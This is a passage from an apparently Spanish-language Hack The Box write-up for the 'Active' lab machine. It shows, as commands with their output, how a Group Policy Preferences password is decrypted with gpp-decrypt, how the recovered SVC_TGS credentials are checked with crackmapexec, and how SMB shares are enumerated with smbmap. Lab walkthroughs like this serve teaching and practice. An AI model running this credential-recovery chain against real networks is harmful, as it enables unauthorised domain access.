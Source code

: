 ```bash
h3g0c1v@kali:~/htb/active$ gpp-decrypt "edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ"
GPPstillStandingStrong2k18

```

Perfecto, tenemos una **contraseña válida** y el **usuario SVC_TGS** , así que vamos a validar si esa contraseña tiene permisos de **administrador** , con **crackmapexec**.

```bash
h3g0c1v@kali:~/htb/active$ crackmapexec smb 10.10.10.100 -u "SVC_TGS" -p "GPPstillStandingStrong2k18"
SMB         10.10.10.100    445    DC               [*] Windows 6.1 Build 7601 x64 (name:DC) (domain:active.htb) (signing:True) (SMBv1:False)
SMB         10.10.10.100    445    DC               [+] active.htb\SVC_TGS:GPPstillStandingStrong2k18 

```

Y no es válida. Bueno pues vamos a ver ahora, otra vez, los recursos compartidos a nivel de red con las credenciales encontradas, a ver si tenemos algún permiso nuevo para algún recurso.

```bash
h3g0c1v@kali:~/htb/active$ smbmap -H 10.10.10.100 -u "SVC_TGS" -p "GPPstillStandingStrong2k18"
[+] IP: 10.10.10.100:445	Name: active.htb                                        
        Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	ADMIN$                                            	NO ACCESS	Remote Admin
	C$                                                	NO ACCESS	Default share
	IPC$                                              	NO ACCESS	Remote IPC
	NETLOGON                                          	READ ONLY	Logon server share 
	Replication                                       	READ ONLY	
	SYSVOL                                            	READ ONLY	Logon server share 
	Users                                             	READ ONLY	

```

Genial, tenemos mas permisos, así que vamos a ver el recuso **Users** , que quiero saber si hay algun que otro usuario que no sepamos.

```bash
h3g0c1v@kali:~/htb/active$ smbmap -H 10.10.10.100 -u "SVC_TGS" -p "GPPstillStandingStrong2k18" -r Users
[+] IP: 10.10.10.100:445	Name: active.htb                                        
        Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	Users                                             	READ ONLY	
	.\Users\*
	dw--w--w--                0 Sat Jul 21 16:39:20 2018	.
	dw--w--w--                0 Sat Jul 21 16:39:20 2018	..
	dr--r--r--                0 Mon Jul 16 12:14:21 2018	Administrator
	dr--r--r--                0 Mon Jul 16 23:08:56 2018	All Users
	dw--w--w--                0 Mon Jul 16 23:08:47 2018	Default
	dr--r--r--                0 Mon Jul 16 23:08:56 2018	Default User
	fr--r--r--              174 Mon Jul 16 23:01:17 2018	desktop.ini
	dw--w--w--                0 Mon Jul 16 23:08:47 2018	Public
	dr--r--r--                0 Sat Jul 21 17:16:32 2018	SVC_TGS

```
